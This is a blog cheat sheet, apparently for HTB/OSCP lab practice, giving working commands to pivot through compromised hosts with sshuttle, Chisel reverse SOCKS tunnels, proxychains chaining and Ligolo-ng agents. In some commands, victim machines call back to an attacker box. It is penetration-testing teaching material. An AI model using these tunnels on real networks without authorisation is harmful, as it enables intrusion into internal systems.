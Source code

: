 ```yaml
---
layout: post
title:  "Pivoting - Cheat Sheet"
author: nanobyte
date:   2023-06-27
description: Pivoting Cheat Sheet
tags: HTB OSCP Pivoting
---
```


[Part 1](https://nanobytesecurity.com/2023/06/26/pivoting-basics-part1.html), pivoting introduction and using SSHuttle\
[Part 2](https://nanobytesecurity.com/2023/06/26/chisel-pivoting-part2.html), pivoting with Chisel\
[Part 3](https://nanobytesecurity.com/2023/06/26/ligolo-pivoting-part3.html), pivoting with Ligolo-ng\
[Pivoting Cheat Sheet](https://nanobytesecurity.com/2023/06/27/pivoting-cheatsheet.html), pivoting cheat sheet

<h3>SSHuttle</h3>

{% highlight bash linenos %}
sshuttle -r root@<victim> <distant network> -x <victim eth2> --ssh-cmd 'ssh -i id_rsa.key'
{% endhighlight %}

Chisel

{% highlight bash linenos %}
Make sure to use the same versions, on target and host machines!
# Attacking Box:
./chisel server -p 80 --reverse

# Victim Box (IP is to our Kali Machine):
./chisel.exe client 10.10.14.18:80 R:socks
{% endhighlight %}

Place this into /etc/proxychains4.conf:

{% highlight bash linenos %}
socks5 127.0.0.1 1080
{% endhighlight %}

<h4>Triple Pivoting (Oh My!)</h4>

On Kali:


{% highlight bash linenos %}
./chisel server -p 80 --reverse
{% endhighlight %}

First pivot box:


{% highlight bash linenos %}
./chisel client 10.10.14.228:80 R:1080:socks
{% endhighlight %}

Second pivot box:


{% highlight bash linenos %}
./chisel client 10.10.14.228:80 R:2080:socks
{% endhighlight %}

Third pivot box:


{% highlight bash linenos %}
./chisel client 10.10.14.228:80 R:3080:socks
{% endhighlight %}

Change /etc/proxychains4.conf:


{% highlight bash linenos %}
# Change to Dynamic Chain:
#strict_chain
dynamic_chain

# Add our chisel proxies
socks5 127.0.0.1 3080
socks5 127.0.0.1 2080
socks5 127.0.0.1 1080
{% endhighlight %}

<h3>Ligolo-ng</h3>

To setup ligolo-ng, on Kali:

{% highlight bash linenos %}
# This will create a new TUN interface
sudo ip tuntap add user [your_username] mode tun ligolo

# This will set the link on yhe nee interface to up
sudo ip link set ligolo up

# This will add a route to the new tunnel.
# NOTE this is where you insert the new subnet you want to access.
sudo ip route add 172.16.5.0/24 dev ligolo
{% endhighlight %}

Once added, we can run the proxy on Kali:

{% highlight bash linenos %}
./proxy -selfcert
{% endhighlight %}

Then, from the Pivot machine, we can run the agent command:

{% highlight bash linenos %}
./agent -connect 10.10.14.10:11601 -ignore-cert
{% endhighlight %}

On our Proxy on Kali, we should see a connection back:

{% highlight bash linenos %}
WARN[0000] Using automatically generated self-signed certificates (Not recommended) 
INFO[0000] Listening on 0.0.0.0:11601
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /
        /____/                          /____/

Made in France ♥ by @Nicocha30!

ligolo-ng » INFO[0024] Agent joined. name="DOMAIN\\Administrator@DC01" remote="10.10.110.3:49821"
We can then run the session and start commands:
ligolo-ng » session
? Specify a session : 1 - DOMAIN\Administrator@DC01 - 10.10.110.3:49821

[Agent : DOMAIN\Administrator@DC01] » start
[Agent : DOMAIN\Administrator@DC01] » INFO[0359] Starting tunnel to CORP\Administrator@DC01
{% endhighlight %}

<h4>Double Pivoting</h4>

Once we have multiple agents, we can quickly change the interaction between which one to use:

{% highlight bash linenos %}
[Agent : DEV\Administrator@DC02] » session
? Specify a session :  [Use arrows to move, type to filter]
> 6 - DOMAIN\Administrator@DC01 - 10.10.110.3:18115
  7 - DOMAIN\Administrator@DC02 - 10.10.110.3:33051
{% endhighlight %}
